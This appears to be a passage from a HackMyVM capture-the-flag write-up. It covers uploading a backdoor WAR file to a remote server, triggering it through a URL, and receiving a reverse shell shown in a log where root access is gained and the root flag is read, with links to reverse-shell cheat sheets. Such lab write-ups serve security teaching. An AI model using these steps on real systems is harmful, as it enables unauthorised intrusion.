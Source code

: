 On the remote machine we need to upload the war file as an application and launch it.

![image](https://user-images.githubusercontent.com/76552238/191777924-64297397-9383-495c-a9fb-ee761087b290.png)

![image](https://user-images.githubusercontent.com/76552238/191778117-13e672bb-2c26-4f48-b477-e34cf84f86ba.png)

![image](https://user-images.githubusercontent.com/76552238/191778312-ee9aba8c-0d66-4e6c-a83a-71b79d8ba68c.png)

Going to **http://discover.hmv:46801/exploit16569657734638343762/** we are able to get a connection on our local machine.

    connect to [10.0.0.27] from (UNKNOWN) [10.0.0.28] 57186
    # whoami
    # root
    # cat /root/Root.txt
    7140a59e697f44b8a8581cc85df76f4c


[1]: "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php"

[2]: "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python"

[3]: "https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/"